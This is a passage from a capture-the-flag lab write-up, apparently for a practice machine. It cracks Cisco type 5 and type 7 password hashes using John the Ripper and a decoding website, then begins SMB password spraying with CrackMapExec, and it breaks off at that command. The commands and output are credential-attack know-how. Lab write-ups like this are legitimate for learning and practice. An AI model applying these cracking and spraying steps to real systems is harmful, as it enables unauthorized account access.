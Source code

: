 We found 3 password hashes.<br>
Cisco type 5 is MD5 and type 7 is something Cisco original.
{% highlight shell %}
$1$pdQG$o8nrSzsGXeaduXrjlvKc91
0242114B0E143F015F5D1E161713
02375012182C1A1D751618034F36415408
{% endhighlight %}

We can crack the MD5 hash and achieve the password "stealth1agent" with John the Ripper.
{% highlight shell %}
root@kali:~# cat cisco5.hash 
$1$pdQG$o8nrSzsGXeaduXrjlvKc91

root@kali:~#
{% endhighlight %}
{% highlight shell %}
root@kali:~# john cisco5.hash --wordlist=/usr/share/wordlists/rockyou.txt    
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
stealth1agent    (?)
1g 0:00:00:15 DONE (2019-11-30 19:56) 0.06561g/s 230047p/s 230047c/s 230047C/s stealthy001..stcroix85
Use the "--show" option to display all of the cracked passwords reliably
Session completed

root@kali:~#
{% endhighlight %}

Next, crack the Cisco type 7 hashes.
We can use <a href="https://passwordrecovery.io/cisco/">this website</a> for that purpose and achieve following 2 passwords.
{% highlight shell %}
$uperP@ssword
Q4)sJu\Y8qz*A3?d
{% endhighlight %}
![placeholder](https://inar1.github.io/public/images/2019-12-01/2019-11-30-20-34-25.png)
![placeholder](https://inar1.github.io/public/images/2019-12-01/2019-11-30-20-37-01.png)

Now we have the following users from "issues.php" and passwords from "/attachment/config.txt".<br>
Then, try each pattern for SMB login with <a href="https://github.com/byt3bl33d3r/CrackMapExec.git">CrackMapExec</a>.
{% highlight shell %}
root@kali:~# cat users.txt 
Hazard
Administrator

root@kali:~#
{% endhighlight %}
{% highlight shell %}
root@kali:~# cat passwords.txt 
stealth1agent
$uperP@ssword
Q4)sJu\Y8qz*A3?d

root@kali:~#
{% endhighlight %}
{% highlight shell %}
root@kali:~# apt-get install crackmapexec

---

root@kali:~# crackmapexec smb 10.10.10.149 -u users.txt -p passwords.txt 